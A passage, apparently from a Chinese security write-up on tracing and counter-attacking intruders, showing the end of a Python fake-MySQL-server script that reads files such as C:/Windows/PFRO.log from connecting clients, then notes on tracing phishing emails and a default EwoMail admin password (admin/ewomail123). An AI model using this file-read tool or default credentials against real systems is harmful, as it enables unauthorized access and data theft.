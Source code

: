 ```php
                        print ("Read Success! ---> " + line)
                    else:
                        print ("Not Found~ ---> " + line)
                else:
                    conn.close()
            except Exception as e:
                print(e)
        else:
            line = 'C:/Windows/PFRO.log'
            res = mysql_get_file_content(line,conn,address)
            if res:
                print ("Read Success! ---> " + line)
            else:
                print ("Not Found~ ---> " + line)
```

项目地址：[https://github.com/fnmsd/MySQL\_Fake\_Server](https://github.com/fnmsd/MySQL_Fake_Server)

# 溯源反制

## 溯源

### 钓鱼邮件溯源

从邮件头入手，通常会包括"Received"字段，其中包含有关邮件传输的信息，如发件服务器的 IP 地址，对 IP 地址进行反查溯源。

![image.png](assets/1698900825-8063e5565485437d5b04b2bc93beb8e9.png)

对邮箱账号进行溯源如“@qq.com”、“@gmail.com”等此类字符串，搜索账号等，如果使用的是私有域名邮箱，可以从这方面入手，有次就碰见 EwoMail 邮箱管理后台一般为 8010 端口使用了默认口令 admin/ewomail123。
